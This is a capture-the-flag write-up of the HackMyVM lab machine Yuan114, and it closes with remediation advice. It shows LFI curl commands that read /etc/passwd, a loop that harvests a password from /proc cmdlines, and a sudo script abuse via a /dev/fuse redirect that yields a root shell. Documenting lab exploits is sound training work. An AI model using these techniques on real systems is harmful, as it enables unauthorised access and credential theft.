+++
date = '2026-09-15T20:46:38+03:00'
draft = false
title = 'Yuan114 — HackMyVM'
tags = ["HackMyVM", "Linux", "Medium", "LFI", "Local File Inclusion", "FFUF", "Gobuster", "Sudo Misconfiguration", "Privilege Escalation", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Yuan114 is a Linux machine on HackMyVM that focuses on enumeration, local file inclusion, and exploiting a sudo misconfiguration to escalate privileges. I discovered a PHP endpoint vulnerable to LFI, used it to extract a plaintext password from a running process via `/proc`, and escalated to root by forcing a conditional branch in a sudo-eligible script.

## Step 1: Reconnaissance and Enumeration

I started with a full port scan against the target.

```
nmap -sV -sC -p- 192.168.56.115
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|   256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILRLvZKpSJkETalR4sqzJOh8a4ivZ8wGt1HfdV3OMNY1
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Welcome
|_http-server-header: Apache/2.4.62 (Debian)
```

**Key Findings:**

- SSH (22) allows password authentication.
- Apache (80) serves a welcome page titled "Welcome".
- The target is running Debian with OpenSSH 8.4.

### SSH

I confirmed that password authentication is enabled on the SSH service.



### HTTP

The landing page showed a welcome page. The page source contained only HTML and CSS with nothing notable.



The page featured a phrase that translates to "the more people I meet, the more I like dogs."

I ran a directory scan with Gobuster but found nothing significant except `/server-status`, which returned a 403 forbidden.

```
gobuster -u http://192.168.56.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



I ran a second scan with file extensions to look for hidden pages.

```
gobuster -u http://192.168.56.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js
```

This uncovered `/file.php`.



## Step 2: Initial Access

### Parameter Discovery

`/file.php` returned a 500 error with no parameters, so I fuzzed for parameter names using FFUF. I initially tried a simple path with no encoding, which didn't work.

```
ffuf -u "http://192.168.56.115/file.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200
```

This revealed the `file` parameter.



### Local File Inclusion

Using the discovered parameter I was able to read arbitrary files without any encoding bypass.

```
curl "http://192.168.56.115/file.php?file=/etc/passwd"
```



The output revealed a user called `welcome`. I tried reading `.bash_history` and SSH keys but got nothing back. I then grabbed the user flag.



### Proc Enumeration

I turned to the `/proc` filesystem to look for running processes that might reveal useful information.

Reading `/proc/uptime` confirmed the filesystem was accessible.

```
curl "http://192.168.56.115/file.php?file=/proc/uptime"
```



I started reading command lines by PID, beginning with PID 1.

```
curl "http://192.168.56.115/file.php?file=/proc/1/cmdline"
```



### PID Fuzzing

I moved to Burp Suite Intruder to fuzz the PID range 1–100, but this didn't yield anything useful.



A faster approach using a bash loop over PIDs 1–1000 revealed the plaintext password of the `welcome` user leaked in a process command line.

```
for id in {1..1000}; do
    curl -s "http://192.168.56.115/file.php?file=/proc/$id/cmdline" | strings
done
```



### SSH Access

With the discovered credentials I logged in via SSH as `welcome`.



## Step 3: Privilege Escalation

### Sudo Enumeration

Running `sudo -l` showed that `welcome` could execute two scripts as root without a password.



### Script Analysis

`read.sh` prompts the user to input the root flag and checks if it matches the contents of `/root/root.txt`.

```
#!/bin/bash

echo "Input the flag:"
if head -1 | grep -q "$(< /root/root.txt)"
then
        echo "Y"
else
        echo "N"
fi
```

`short.sh` generates a random number, asks the user to guess, and spawns a root bash shell if the guess is correct.

```
#!/bin/bash

PATH=/usr/bin
My_guess=$RANDOM

echo "This is script logic"
cat << EOF
if [ "$1" != "$My_guess" ] ;then
    echo "Nop"; 
else
    bash -i;
fi
EOF

[ "$1" != "$My_guess" ] && echo "Nop" || bash -i
```

I only had read and execute permissions on both scripts, so I couldn't edit them.



### Exploitation

I tested command injection by appending a semicolon after the script call, but the script terminates cleanly and the injection doesn't execute.

```
sudo ./short.sh 11; sudo bash
```



The key line in `short.sh` is:

```
[ "$1" != "$My_guess" ] && echo "Nop" || bash -i
```

This works as a conditional: if `echo "Nop"` fails, the `||` branch runs `bash -i`. The only way to get a root shell is to make the `echo` command fail.

I tried writing to `/dev/mem` but got permission denied, so I redirected stdout to `/dev/fuse` instead. The device can only be written to by processes with the appropriate privileges, so the `echo` inside the script fails, triggering the `||` branch.

```
sudo /opt/short.sh echo > /dev/fuse
```



After obtaining the root shell, all subsequent commands failed because the redirect had overwritten stdout.



I fixed this by restoring stdout to the terminal.

```
exec 1>/dev/tty
```



I then had a fully interactive root shell and recovered the root flag.

## Conclusion

The machine was compromised through the following attack chain:

1. Gobuster enumeration with file extensions revealed `/file.php`.
2. FFUF parameter fuzzing discovered a `file` parameter vulnerable to local file inclusion.
3. LFI via `/proc/<pid>/cmdline` leaked a plaintext password for the `welcome` user.
4. SSH access as `welcome` with the recovered credentials.
5. A sudo-eligible script with a conditional was exploited by forcing a write error to `/dev/fuse`, making `echo` fail and triggering a root bash shell.

To secure the environment, the following remediations are recommended:

- **Remove or restrict LFI-vulnerable endpoints** and sanitize all user-supplied input before passing it to file-reading functions.
- **Avoid storing plaintext passwords in process arguments** where they can be read via `/proc`.
- **Audit sudo entries** and avoid granting NOPASSWD access to arbitrary shell scripts without strict controls.
- **Remove dangerous conditional branches** from sudo-eligible scripts and avoid using `|| bash` patterns.
- **Restrict `/dev/fuse` access** to only the processes that require it.
